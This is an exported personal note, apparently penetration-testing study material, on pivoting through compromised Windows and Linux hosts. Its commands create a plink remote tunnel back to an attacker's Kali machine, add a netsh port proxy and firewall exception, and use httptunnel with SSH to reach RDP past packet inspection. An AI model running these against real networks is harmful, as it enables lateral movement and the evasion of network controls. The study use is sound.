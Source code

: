 PLINK & Others

# PLINK

Like Putty, use for **remote port forwarding** on Windows machine (Uses ssh still)

available in windows-resources/binaries

Run on the TARGET/JMPHOST Windows machine; (Command configured for Reverse Shell)

> cmd.exe /c echo y | plink.exe -ssh -l kali -pw &lt;password&gt; -R &lt;KALIIP&gt;:&lt;FreePORT&gt;:127.0.0.1:&lt;TargetPort&gt; &lt;KALIIP&gt;

# Netsh

Installed by default in every Windows system

Used for LOCAL port forwarding and pivoting in scenarios where we **do not have to deal with UAC (have obtained SYSTEM privileges)**

**Can be used only if "IP Helper" service is running** and **IPv6 is enabled (See Network Interface Properties)** on the machine

![42eddb1f4c35c4db11d5643636550b1f.png](:/0cf3453e5d7244fcb3476fc61127ea0f)

Local Port Forwarding

> netsh interface portproxy add v4tov4 listenport=&lt;Freeport&gt; listenaddress=&lt;KaliIP&gt; connectport=&lt;TargetService&gt; connectaddress=&lt;TargetMachine&gt;

Verify it is on

> netstat -anp TCP | find "4455"

To enable the firewall to allow traffic (E.g. Port 4455 which is usually not allowed):

> netsh advfirewall firewall add rule name="forward\_port\_rule" protocol=TCP dir=in localip=&lt;KaliIP&gt; localport=4455 action=allow

![ceb12d85360f831801069f5769b10402.png](:/4d43271e1393453e8e8acfd1f5b475ae)

# <ins>Httptunnel</ins>

<ins>\- tunnels a data stream in http requests (Deep Packet Inspection scenario)</ins>

Conditions

- a linux environment,
- compromised a linux server (Jumphost), with elevated privileges to root (gain access to root and student users on this machine.)
- We will assume that a deep packet content inspection feature has been implemented that only allows HTTP protocol.
    - SSH-based tunnel will not work here

<ins>Example:</ins> Only ports 80, 443 and 1234 are allowed through the firewall between compromised machine and Kali

<ins>Typical Scenario:</ins> Want RDP port available so can rdesktop into machine from Kali

Linux Kali:

> htc --forward-port 8080 JUMPHOSTIP:1234

On HTTP jumphost:

> hts --forward-port localhost:8888 1234

Also on HTTP jumphost, to Targeted Windows Machine:

> ssh -L 0.0.0.0:8888:TARGETIP:3389 user@127.0.0.1

To connect RDP, use rdesktop or xrdp

> rdesktop -u user -p password &lt;IP or hostname&gt;

Gateway finder -- find router to the internet

https://github.com/pentestmonkey/gateway-finder

id: ac51ca358b14411396607929dbb457af
parent_id: fa5212f3e7624b48b87153f3e4182dd1
created_time: 2022-01-16T14:11:07.935Z
updated_time: 2022-01-30T09:31:38.168Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 821170205906
user_created_time: 2022-01-16T14:11:07.935Z
user_updated_time: 2022-01-30T09:31:38.168Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1